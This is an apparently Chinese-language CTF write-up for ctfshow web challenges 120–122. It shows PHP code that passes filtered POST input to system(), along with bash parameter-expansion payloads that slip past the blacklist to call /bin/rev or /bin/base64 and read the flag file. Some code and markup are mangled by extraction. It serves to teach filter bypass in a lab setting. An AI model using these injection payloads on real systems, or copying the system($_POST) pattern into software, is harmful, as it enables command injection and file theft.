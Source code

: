 又增加过滤了HOME

自己构造的paylaod在这里不行，显示太长

${PWD${#SHLVL}}${PWD${#SHLVL}}${PWD${RANDOM~A}}
官方payload

${PWD${#SHLVL}}${PWD${#SHLVL}}${USER~A} .
官方wp这里的$USER代表的变量最后一位是a,题目也没提示。。。

这里PWD不是root,要不然就可以

${PWD${#SHLVL}}${PWD${#SHLVL}}${PWD~A}
web121~通配符构造 binrev
php
error_reporting(0);
highlight_file(__FILE__);
if(isset($_POST['code'])){
$code=$_POST['code'];
if(!preg_match('x09x0a[a-z][0-9]FLAGPATHBASHHOMEHISTIGNOREHISTFILESIZEHISTFILEHISTCMDUSERTERMHOSTNAMEHOSTTYPEMACHTYPEPPIDSHLVLFUNCNAME()[]+-_~!=^x26%'`,', $code)){    
if(strlen($code)65){
echo'div align=center'.'you are so long , I dont like '.'div';
}
else{
echo'div align=center'.system($code).'div';
}
}
else{
echo'div align=centerevil inputdiv';
}
}
​

有多过滤了几个linux变量.

首先这里 把$SHLVL给 ban 了，那我们就得找其他的 1 个长度的变量。

$ 最后运行的命令的结束代码（返回值）即执行上一个指令的返回值 (显示最后命令的退出状态。0表示没有错误，其他任何值表明有错误)

$# 添加到Shell的参数个数

详情： httpsblog.csdn.nethelloxiaozhearticledetails80940066

${#}、${##}都可以代表 1

题目$PWD变量不知又是代表的啥。


题目 wp： 构造 binrev

${PWD${#}}${PWD${#}}${PWD${#IFS}${#}} .
# r
flag出来之后继续rev 反转一下就可以了。

web122~ 通配符构造binbase64
php
error_reporting(0);
highlight_file(__FILE__);
if(isset($_POST['code'])){
$code=$_POST['code'];
if(!preg_match('x09x0a[a-z][0-9]FLAGPATHBASHPWDHISTIGNOREHISTFILESIZEHISTFILEHISTCMDUSERTERMHOSTNAMEHOSTTYPEMACHTYPEPPIDSHLVLFUNCNAME()[]+-_~!=^x26#%'`,', $code)){    
if(strlen($code)65){
echo'div align=center'.'you are so long , I dont like '.'div';
}
else{
echo'div align=center'.system($code).'div';
}